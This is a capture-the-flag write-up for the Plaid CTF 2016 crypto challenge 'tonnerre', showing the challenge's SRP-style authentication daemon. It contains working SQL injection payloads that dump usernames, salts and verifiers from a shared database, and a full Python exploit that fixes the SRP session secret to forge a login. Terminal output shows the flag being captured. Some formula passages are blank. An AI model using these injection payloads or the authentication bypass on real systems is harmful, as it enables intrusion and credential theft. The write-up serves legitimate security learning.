




# Plaid CTF 2016: tonnerre

## Challenge details
| Event | Challenge | Category | Points |
|:------|:----------|:---------|-------:|
| Plaid CTF | tonnerre | Crypto | 200 |

### Description
> We were pretty sure the service at [tonnerre.pwning.xxx:8561 (source)](challenge) was totally secure. But then we came across this website and now we’re having second thoughts... We think they store the service users in the same database?

## Write-up

In this challenge we are faced with two services: one a network daemon which requires us to authenticate ourselves with some protocol the other a web service. The network daemon looks as follows:

```python
from Crypto.Random import random, atfork
from Crypto.Hash import SHA256

from database import import_permitted_users

import SocketServer,threading,os,time

msg = """Welcome to the Tonnerre Authentication System!\n"""
flag = "REDACTED"

N = 168875487862812718103814022843977235420637243601057780595044400667893046269140421123766817420546087076238158376401194506102667350322281734359552897112157094231977097740554793824701009850244904160300597684567190792283984299743604213533036681794114720417437224509607536413793425411636411563321303444740798477587L
g = 9797766621314684873895700802803279209044463565243731922466831101232640732633100491228823617617764419367505179450247842283955649007454149170085442756585554871624752266571753841250508572690789992495054848L

permitted_users = {}

# This should import the fields from the data into the dictionary.
# the dictionary is indexed by username, and the data it contains are tuples
# of (salt, verifier) as numbers. note that the database stores these in hex.
import_permitted_users(permitted_users)

def H(P):
  h = SHA256.new()
  h.update(P)
  return h.hexdigest()

def tostr(A):
  return hex(A)[2:].strip('L')

class incoming(SocketServer.BaseRequestHandler):
  def handle(self):
    atfork()
    req = self.request
    req.sendall(msg)
    username = req.recv(512)[:-1]
    if username not in permitted_users:
      req.sendall('Sorry, not permitted.\n')
      req.close()
      return
    public_client = int(req.recv(512).strip('\n'), 16) % N
    c = (public_client * permitted_users[username][1]) % N
    if c in [N-g, N-1, 0, 1, g]:
      req.sendall('Sorry, not permitted.\n')
      req.close()
      return
    random_server = random.randint(2, N-3)
    public_server = pow(g, random_server, N)
    residue = (public_server + permitted_users[username][1]) % N
    req.sendall(tostr(permitted_users[username][0]) + '\n')
    req.sendall(tostr(residue) + '\n')

    session_secret = (public_client * permitted_users[username][1]) % N
    session_secret = pow(session_secret, random_server, N)
    session_key = H(tostr(session_secret))

    proof = req.recv(512).strip('\n')

    if (proof != H(tostr(residue) + session_key)):
      req.sendall('Sorry, not permitted.\n')
      req.close()
      return

    our_verifier = H(tostr(public_client) + session_key)
    req.sendall(our_verifier + '\n')

    req.sendall('Congratulations! The flag is ' + flag + '\n')
    req.close()

class ReusableTCPServer(SocketServer.ForkingMixIn, SocketServer.TCPServer):
  pass

SocketServer.TCPServer.allow_reuse_address = True
server = ReusableTCPServer(("0.0.0.0", 8561), incoming)
server.timeout = 60
server.serve_forever()
```

So we send our username together with some sort of public client-side generated value which is then checked against a verifier after which we are supplied with the modular addition of a server-side generated value and this verifier together with the salt. The server generates a session key based on these values and we are supposed to as well if we know a certain secret.

We can identify this protocol as (a version of) the [Secure Remote Password (SRP) Protocol](https://en.wikipedia.org/wiki/Secure_Remote_Password_protocol). This [zero-knowledge protocol](https://en.wikipedia.org/wiki/Zero-knowledge_password_proof) allows users to authenticate to a server that does not know their secret password. In order to authenticate ourselves we will need to generate a session key that matches the one held by the server which is the result of:



A common attack on faulty implementations of the SRP is to 'fixate' the session secret by specifying an ephemeral client value eg. `public_client = 0` which effectively cancels out the contribution of the verifier to the secret since `0 * verifier = 0`. The server checks against this by blacklisting 'dangerous' session secrets however:

```python
if c in [N-g, N-1, 0, 1, g]:
```

So we will have to at least obtain the verifier. Lucky for us the web application shares a database with the SRP daemon and the webapp happens to be vulnerable to SQL injection. A simple `' OR 1=1 -- -` allows us to log in as admin but it shows the admin interface is disabled. So instead of logging in we will use the SQLi to dump the database:

```
' OR 1=0 UNION SELECT (SELECT group_concat(user) FROM users) FROM users -- -
get_flag

' OR 1=0 UNION SELECT (SELECT group_concat(salt) FROM users) FROM users -- -
d14058efb3f49bd1f1c68de447393855e004103d432fa61849f0e5262d0d9e8663c0dfcb877d40ea6de6b78efd064bdd02f6555a90d92a8a5c76b28b9a785fd861348af8a7014f4497a5de5d0d703a24ff9ec9b5c1ff8051e3825a0fc8a433296d31cf0bd5d21b09c8cd7e658f2272744b4d2fb63d4bccff8f921932a2e81813

' OR 1=0 UNION SELECT (SELECT group_concat(verifier) FROM users) FROM users -- -
ebedd14b5bf7d5fd88eebb057af43803b6f88e42f7ce2a4445fdbbe69a9ad7e7a76b7df4a4e79cefd61ea0c4f426c0261acf5becb5f79cdf916d684667b6b0940b4ac2f885590648fbf2d107707acb38382a95bea9a89fb943a5c1ef6e6d064084f8225eb323f668e2c3174ab7b1dbfce831507b33e413b56a41528b1c850e59
```

Even though we now have the username, salt and verifier we still cannot log in as we do not have the password. Remember, the protocol is zero-knowledge so we are not supposed to be able to derive knowledge about the password from the verifier. And even if we could, we have no knowledge about the derivation function (even though we could guess at standardized approaches) so that's not the right approach.

The right approach lies in realizing that once we have the verifier we have more options for session secret fixation, while the following secrets are blacklisted:

```
    (A * verifier mod N) = 0
    (A * verifier mod N) = 1
    (A * verifier mod N) = g
    (A * verifier mod N) = (N-1)
    (A * verifier mod N) = (N-g)
```

This one: `(A * verifier mod N) = g^2` is not. If we manage to choose a public client value `A` such that `(A * verifier mod N) = g^2` then we will have:



Since know the residue value and the verifier we can know calculate:



So how do we pick our public client value `A`?



And then [we tie it all together](solution/tonnerre_crack.py):

```python
#!/usr/bin/env python
#
# Plaid CTF 2016
# tonnerre (CRYPTO/200)
#
# @a: Smoke Leet Everyday
# @u: https://github.com/smokeleeteveryday
#

from Crypto.Hash import SHA256

# GCD (times sign of b if b is nonzero, times sign of a if b is zero)
def gcd(a,b):
  while b != 0:
      a,b = b, a % b
  return a

# Extended Greatest Common Divisor
def egcd(a, b):
  if (a == 0):
      return (b, 0, 1)
  else:
      g, y, x = egcd(b % a, a)
      return (g, x - (b // a) * y, y)

# Modular multiplicative inverse
def modInv(a, m):
  g, x, y = egcd(a, m)
  if (g != 1):
      raise Exception("[-]No modular multiplicative inverse of %d under modulus %d" % (a, m))
  else:
      return x % m

def H(P):
  h = SHA256.new()
  h.update(P)
  return h.hexdigest()

def tostr(A):
  return hex(A)[2:].strip('L')

N = 168875487862812718103814022843977235420637243601057780595044400667893046269140421123766817420546087076238158376401194506102667350322281734359552897112157094231977097740554793824701009850244904160300597684567190792283984299743604213533036681794114720417437224509607536413793425411636411563321303444740798477587L
g = 9797766621314684873895700802803279209044463565243731922466831101232640732633100491228823617617764419367505179450247842283955649007454149170085442756585554871624752266571753841250508572690789992495054848L
verifier = long('ebedd14b5bf7d5fd88eebb057af43803b6f88e42f7ce2a4445fdbbe69a9ad7e7a76b7df4a4e79cefd61ea0c4f426c0261acf5becb5f79cdf916d684667b6b0940b4ac2f885590648fbf2d107707acb38382a95bea9a89fb943a5c1ef6e6d064084f8225eb323f668e2c3174ab7b1dbfce831507b33e413b56a41528b1c850e59', 16)

public_client = (pow(g, 2) * modInv(verifier, N)) % N

assert (((public_client * verifier) % N) == pow(g, 2, N))

print "public_client> [%s]" % (tostr(public_client))

residue = raw_input('Residue?> ')
residue_l = long(residue, 16)
session_secret = pow(residue_l - verifier, 2, N)
session_key = H(tostr(session_secret))
print "proof> [%s]" % H(tostr(residue_l) + session_key)
```

Which gives the output:

```bash
$ ./tonnerre_crack.py
public_client> [e2a218006a120b096d7836bf397e7dbb1a8f8f6cedb87c20fe3d4a2b99fc9f6661777bbe804b82e9c17a0ad2d508b97031d146934479076a4c11c199322e0dc9724d2cdac24480c6decae4e547f020273f3a2849f9d068cb8c774e029a747fc7c726a1bad2b9f9a7c091096002c364f018f2f1157ad492d42c00305d84f37db7]
Residue?> 8fe8bfa5cd2685dc135225c61c6cc26090974acb16514b2205ca5d5f35e165a83a474ca19adaa08fde5fb93f3218a2a0f823a9c92e4ed7da612fe91b6c7f46fb1375bd7d18b36948ccfcc94ed9b9f288e62c07e3369eb763de4a506f87e3cc7086ed8e1a59f387398bfc01991f8938339a07319e66202346944648947b4a7830
proof> [81020e0ec41cca8b0d38e8de7b114e86d803d691e90a8ea274541162403c0a40]

$ nc tonnerre.pwning.xxx 8561
Welcome to the Tonnerre Authentication System!
get_flag
e2a218006a120b096d7836bf397e7dbb1a8f8f6cedb87c20fe3d4a2b99fc9f6661777bbe804b82e9c17a0ad2d508b97031d146934479076a4c11c199322e0dc9724d2cdac24480c6decae4e547f020273f3a2849f9d068cb8c774e029a747fc7c726a1bad2b9f9a7c091096002c364f018f2f1157ad492d42c00305d84f37db7
d14058efb3f49bd1f1c68de447393855e004103d432fa61849f0e5262d0d9e8663c0dfcb877d40ea6de6b78efd064bdd02f6555a90d92a8a5c76b28b9a785fd861348af8a7014f4497a5de5d0d703a24ff9ec9b5c1ff8051e3825a0fc8a433296d31cf0bd5d21b09c8cd7e658f2272744b4d2fb63d4bccff8f921932a2e81813
8fe8bfa5cd2685dc135225c61c6cc26090974acb16514b2205ca5d5f35e165a83a474ca19adaa08fde5fb93f3218a2a0f823a9c92e4ed7da612fe91b6c7f46fb1375bd7d18b36948ccfcc94ed9b9f288e62c07e3369eb763de4a506f87e3cc7086ed8e1a59f387398bfc01991f8938339a07319e66202346944648947b4a7830
81020e0ec41cca8b0d38e8de7b114e86d803d691e90a8ea274541162403c0a40
eabf2dad54503aff1282c1cff2e6d9191dd2696ed7c515d0687b2dcbf18253f1
Congratulations! The flag is PCTF{SrP_v1_BeSt_sRp_c0nf1rm3d}
```